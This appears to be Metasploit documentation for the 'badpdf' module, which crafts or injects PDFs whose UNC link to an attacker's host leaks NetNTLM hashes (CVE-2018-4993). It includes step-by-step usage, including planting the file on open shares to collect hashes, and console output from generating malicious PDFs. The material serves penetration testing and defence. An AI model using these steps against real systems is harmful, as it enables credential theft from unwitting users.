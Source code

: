 This module will either create a blank pdf document which contains a UNC link which will connect back to LHOST if file FILENAME options is used 
or if PDFINJECT option is used will try and inject the necessary UNC code into an existing PDF document.

## Vulnerable Application

Various PDF Readers. Note Adobe released the patch APSB18-09 to prevent this and
FoxIT after version 9.1 is no longer vulnerable.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/fileformat/badpdf```
  4. Customise Options as required
  5. Do: ```run```
  6. A file pointing back to the listening host will then be generated.
  7. Configure auxiliary/server/capture/smb or similar to capture hashes.
  8. Upload the document to an open share or similar and wait for hashes.

## Options

### FILENAME
This option allows you to customise the generated filename.
This can be changed using set FILENAME test.pdf

### LHOST
This option allows you to set the IP address of the SMB Listener that the document points to
This can be changed using set LHOST 192.168.1.25

### PDFINJECT
This option allows you to inject the UNC code into an existing PDF document
This can be changed using set PDFINJECT /path/to/file/pdf.pdf

## Scenarios

### Microsoft Windows

  
  ```
  Console output
  ```

  ```
  msf auxiliary(fileformat/badpdf) > show info

       Name: BADPDF Malicious PDF Creator
     Module: auxiliary/fileformat/badpdf
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Richard Davy - secureyourit.co.uk
  CheckPoint researchers - Assaf Baharav, Yaron Fruchtmann, Ido Solomon

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  FILENAME                    no        Filename
  LHOST                       yes       Host listening for incoming SMB/WebDAV traffic
  PDFINJECT                   no        Path and filename to existing PDF to inject UNC link code into

Description:
  This module can either creates a blank PDF file which contains a UNC 
  link which can be used to capture NetNTLM credentials, or if the 
  PDFINJECT option is used it will inject the necessary code into an 
  existing PDF document if possible.

References:
  https://cvedetails.com/cve/CVE-2018-4993/
  https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/

msf auxiliary(fileformat/badpdf) > 

msf auxiliary(fileformat/badpdf) > set filename test.pdf
filename => test.pdf
msf auxiliary(fileformat/badpdf) > set lhost 192.168.1.28
lhost => 192.168.1.28
msf auxiliary(fileformat/badpdf) > exploit

[+] test.pdf stored at /root/.msf4/local/test.pdf
[\*] Auxiliary module execution completed
msf auxiliary(fileformat/badpdf) > set filename ""
filename => 
msf auxiliary(fileformat/badpdf) > set pdfinject /root/Desktop/example.pdf
pdfinject => /root/Desktop/example.pdf
msf auxiliary(fileformat/badpdf) > exploit

[+] Malicious file written to /root/Desktop/example_malicious.pdf
[\*] Auxiliary module execution completed
msf auxiliary(fileformat/badpdf) > 
 
  ```
